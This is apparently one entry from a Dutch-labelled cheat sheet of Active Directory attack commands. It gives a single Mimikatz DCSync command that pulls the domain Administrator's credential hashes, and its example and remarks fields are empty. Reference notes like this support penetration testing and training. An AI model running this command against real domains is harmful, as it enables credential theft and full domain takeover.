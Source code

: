 # 23. AD authentication — Entry 33

## Categorie

dcsync attack

## Commando

```
lsadump::dcsync /user:corp\Administrator
```

## Omschrijving

Mimikatz for domain admin attack

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

